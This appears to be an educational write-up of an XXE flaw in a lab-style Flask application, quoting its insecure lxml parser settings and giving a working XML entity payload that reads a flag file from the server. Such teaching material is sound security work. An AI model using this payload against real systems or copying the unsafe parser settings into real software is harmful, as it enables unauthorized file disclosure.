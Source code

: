 The provided Flask web application contains a critical security vulnerability known as **XML External Entity (XXE)**. This vulnerability arises from improper handling of XML input, allowing attackers to manipulate XML data to perform unauthorized actions, such as accessing sensitive files on the server.

---

## **Understanding the XXE Vulnerability in the Application**

### **1. How the Vulnerability Exists**

The vulnerability is present in the `/upload` route, specifically in the way the application parses XML data:

```python
parser = etree.XMLParser(load_dtd=True, no_network=False, resolve_entities=True)
tree = etree.fromstring(xml_data.encode(), parser)
```

- **`load_dtd=True`**: Allows the parser to process Document Type Definitions (DTDs).
- **`no_network=False`**: Permits the parser to fetch external resources over the network.
- **`resolve_entities=True`**: Enables the parser to resolve and include external entities defined in the XML.

These settings collectively allow an attacker to define and exploit external entities within the XML input, leading to potential disclosure of sensitive information or other malicious activities.

### **2. Exploitation: Retrieving the `flag.txt` File**

The application creates a `flag.txt` file containing a success message:

```python
if not os.path.exists('flag.txt'):
    with open('flag.txt', 'w') as f:
        f.write('Congratulations! You have successfully exploited the XXE vulnerability.')
```

An attacker can craft a malicious XML payload to read the contents of `flag.txt` by defining an external entity that references this file. Here's how the exploitation works:

#### **a. Malicious XML Payload**

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE root [
<!ENTITY xxe SYSTEM "file:///flag.txt">
]>
<root>
  <name>&xxe;</name>
</root>
```

**Explanation:**

- **`<!DOCTYPE root [ ... ]>`**: Defines the DTD for the XML document.
- **`<!ENTITY xxe SYSTEM "file:///flag.txt">`**: Declares an external entity named `xxe` that points to the `flag.txt` file on the server.
- **`<name>&xxe;</name>`**: References the `xxe` entity within the `<name>` element.
